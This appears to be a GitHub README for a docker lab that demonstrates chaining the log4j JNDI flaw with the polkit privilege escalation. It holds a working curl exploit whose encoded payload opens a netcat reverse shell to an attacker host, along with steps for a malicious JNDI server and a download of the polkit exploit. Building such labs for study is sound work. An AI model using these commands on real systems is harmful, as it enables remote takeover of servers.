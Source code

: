 #  log4j CVE-2021-44228 + polkit CVE-2021-4034
Vulnerable instance for the log4j apache exploit and privilege escalation using polkit
- The vulnable spring-boot-application.jar was extracted from [this docker image](https://hub.docker.com/r/andylibrian/log4shell-vulnerable-app/tags)
- The malicious JNDI server was downloaded from [here](https://log4j-knox.s3.amazonaws.com/JNDIExploit-1.2-SNAPSHOT.jar) and referenced in [this article](https://github.com/kubearmor/log4j-CVE-2021-44228).

## PoC Video
[![PoC Video](https://img.youtube.com/vi/ErbgAAcvNHA/0.jpg)](https://www.youtube.com/watch?v=ErbgAAcvNHA)

## creating the vulnerable instances

### log4j-polkit-vuln
The vulnerable instance will be running and listening for connections on port 80 (exposed to the host machine) on completion of the steps below. The vulnerable part for the log4j exploit is the X-Api-Version header that is sent to the server.

Docker: [log4j-polkit-vulnerable-server](https://hub.docker.com/r/0xalwayslucky/log4j-polkit-vulnerable-server)

steps to pull & run the vulnerable docker image:
```bash
docker pull 0xalwayslucky/log4j-polkit-vulnerable-server
docker run -p 80:8080 0xalwayslucky/log4j-polkit-vulnerable-server
```

steps to create a vulnerable instance for log4j + polkit manually:
> Note: the Dockerfiles require certain versions of the vulnerable applications to be present within the ubuntu repositories. If these get updated and/or removed on any given time the docker image will fail to build. To solve this an image will be uploaded to the docker hub and linked here.
```bash
git clone https://github.com/0xalwayslucky/log4j-polkit-poc
cd log4j-polkit-poc/log4j-polkit-vuln
docker build -t log4j-polkit-vulnerable-server .
docker run -p 80:8080 --hostname victim log4j-polkit-vulnerable-server
```

### attackserver
This will simulate the attackers machine, in this case present within the same network (due to easy communication between docker containers), but the exploit works no matter where this attack server is situated (only condition is that it is accessible by the victim). The malicious JNDI server will be hosted on here and create a malicious class to execute arbitrary commands on the victims machine.

steps to create a simulated attacker machine:
```bash
git clone https://github.com/0xalwayslucky/log4j-polkit-poc
cd log4j-polkit-poc/attackserver
docker build -t attackserver .
docker run -it --hostname attackserver attackserver /bin/bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ip> -p 8888 &  # in the docker container
```

## exploitation
commands from the poc-video
> Note: IP address of the attackserver might vary
```
# Log4j exploit
curl http://localhost -H 'X-Api-Version: ${jndi:ldap://172.17.0.3:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMyA0NDQ0IC1lIC9iaW4vYmFzaA==}'

# Polkit exploit
wget https://raw.githubusercontent.com/afwu/CVE-2021-4035/main/cve-2021-4034-poc.c

```
